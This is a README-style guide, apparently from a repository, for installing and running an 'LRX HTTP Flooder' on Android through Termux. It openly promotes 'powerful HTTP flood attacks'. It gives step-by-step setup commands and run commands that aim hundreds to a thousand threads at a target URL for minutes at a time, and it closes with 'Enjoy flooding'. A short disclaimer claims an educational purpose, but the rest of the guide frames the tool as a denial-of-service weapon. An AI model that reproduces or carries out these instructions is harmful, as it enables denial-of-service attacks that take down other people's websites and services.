 🚀 Ultimate Guide: Installing LRX HTTP Flooder on Mobile (Termux) 🚀


Welcome to the LRX HTTP Flooder installation guide for mobile devices! This tool is designed to perform powerful HTTP flood attacks and is branded exclusively for LRX users. Follow this step-by-step guide to unleash the power of the LRX HTTP Flooder from your Android device!

📝 Prerequisites
An Android device with Termux installed.
Basic knowledge of using the command line.
A stable internet connection.
Make sure your device has Python 3.x installed (Termux will handle it).
🌐 Step 1: Installing Termux
Download and install Termux from F-Droid (recommended) or GitHub.

🛠️ Step 2: Updating and Upgrading Termux
Open Termux and update packages:
pkg update && pkg upgrade -y
This ensures that you have the latest versions of installed packages.

🐍 Step 3: Installing Python and Pip
Install Python and the pip package manager:
pkg install python -y
pip install --upgrade pip

📂 Step 4: Cloning the LRX HTTP Flooder from GitHub
Clone the repository using Git:
pkg install git -y
git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git
cd LRX-HTTP-Flooder
(Replace YourUsername with your actual GitHub username.)

🧰 Step 5: Installing Required Python Libraries
Install necessary libraries using pip:
pip install requests matplotlib

🚀 Step 6: Running the LRX HTTP Flooder
To start the attack, use the following command:
python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600
Replace the target URL, duration, and number of threads as needed.

💡 Example Usage
python lrx_http_flooder.py --target https://example.com --duration 600 --threads 1000
This will run the flooder against the specified target for 600 seconds with 1000 threads.

📝 Log and Status Monitoring
While running, the tool will display:

Total packets sent
HTTP status codes
Real-time request logs
🛑 Step 7: Stopping the Attack
To stop the attack, press:

objectivec
CTRL + C
✅ Troubleshooting
If you encounter errors related to Python libraries, reinstall them:
pip install --force-reinstall requests matplotlib

If the script doesn’t execute, make sure it has executable permissions:
chmod +x lrx_http_flooder.py

⚠️ Disclaimer
This tool is intended for educational and testing purposes only. Unauthorized use of this tool on third-party systems is illegal and punishable by law. Use responsibly and only on systems you own or have permission to test.

💬 Support
If you encounter any issues, feel free to open an issue on the GitHub repository or contact us via the support page.



ALL TERMUX CODE

pkg update && pkg upgrade -y

pkg install python -y

pip install --upgrade pip

pkg install git -y

git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git

cd LRX-HTTP-Flooder

pip install requests matplotlib

python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600


Enjoy flooding with the power of LRX! 🔥
